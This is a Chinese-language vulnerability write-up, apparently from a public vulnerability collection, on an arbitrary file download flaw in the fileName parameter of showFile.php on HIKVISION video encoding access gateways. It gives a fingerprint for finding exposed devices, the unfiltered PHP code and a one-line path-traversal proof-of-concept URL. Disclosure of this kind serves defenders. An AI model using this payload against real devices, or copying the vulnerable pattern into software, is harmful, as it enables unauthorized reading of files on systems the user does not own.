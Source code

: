 # HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630063019704-4b10f55b-d725-4866-b5aa-e73d638b2f27.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载



```php
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```



验证POC

```python
/serverLog/showFile.php?fileName=../web/html/main.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630063348342-40566a14-18d5-467b-b259-ad3c6888c456.png)